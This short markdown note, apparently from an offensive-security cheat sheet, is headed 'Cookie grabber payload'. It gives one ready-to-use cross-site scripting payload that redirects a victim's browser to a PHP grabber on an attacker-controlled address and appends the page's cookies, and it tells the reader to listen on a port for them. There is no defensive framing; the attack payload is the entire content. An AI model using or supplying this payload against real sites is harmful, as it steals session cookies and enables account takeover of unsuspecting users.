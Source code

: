 ## Cookie grabber payload
listen on the specified port and use the payload:
```
<script>document.location='http://10.11.28.137:3333/XSS/grabber.php?c='+document.cookie</script>
```